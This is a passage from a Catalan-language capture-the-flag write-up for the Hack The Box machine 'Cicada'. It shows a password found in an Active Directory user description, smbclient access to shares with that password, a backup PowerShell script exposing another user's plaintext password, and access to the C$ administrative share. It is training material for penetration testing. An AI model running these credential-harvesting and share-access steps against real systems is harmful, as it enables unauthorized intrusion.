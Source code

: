 ```
Administrator   Administrator   Administrator   Group Policy Creator Owners, Domain Admins, Enterprise Admins, Schema Admins, Administrators    Domain Users    03/14/24 11:09:25       10/14/24 15:46:42       10/14/24 15:46:56       NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD  08/26/24 20:08:03       S-1-5-21-917908876-1423158569-3159038727-500    Built-in account for administering the computer/domain  
```

O bé millor fem doble clic al fitxer domain_users.html:

![image](https://github.com/user-attachments/assets/5d8b49c7-26bd-4ba4-9f3e-3abf2a466542)


I veiem com l'usuari David Orelious o david.orelious s'ha apuntat les credencials a la descripció per si se'n olbida: 'aRt$Lp#7t*VQ!3'

Ara podem utilitzar les credencial per veure si tenim més accés a SMB, i veiem que ara podem accedir i descarregar l'script que hi ha, el 'Backup_script.ps1':
```
┌──(kali㉿kali)-[~/Documents/Cicada/Kerbrute/kerbrute]
└─$ smbclient \\\\10.10.11.35\\DEV -U david.orelious@cicada.htb
Password for [david.orelious@cicada.htb]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

                4168447 blocks of size 4096. 333954 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.2 KiloBytes/sec) (average 1.2 KiloBytes/sec)
smb: \> 

```

Si li fem un cat ens trobem amb que obtenim les credencials de l'usuari emily.oscars:
```
┌──(kali㉿kali)-[~/Documents/Cicada/Kerbrute/kerbrute]
└─$ cat Backup_script.ps1   

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
                                                                                  
```

Ara, amb aquestes credencials, podem tornar a SMB i veiem que tenim accés al directori C: de l'ordinador Windows que havíem vist al principi de tot al connectar-nos a SMB amb anonymous que era el directori compartit per defecte: C$              Disk      Default share:
```
┌──(kali㉿kali)-[~]
└─$ smbclient \\\\10.10.11.35\\C$ -U emily.oscars@cicada.htb
Password for [emily.oscars@cicada.htb]:
Try "help" to get a list of possible commands.
smb: \> dir
  $Recycle.Bin                      DHS        0  Thu Mar 14 14:24:03 2024
  $WinREAgent                        DH        0  Mon Sep 23 18:16:49 2024
  Documents and Settings          DHSrn        0  Thu Mar 14 20:40:47 2024
  DumpStack.log.tmp                 AHS    12288  Mon Oct 14 17:45:59 2024
```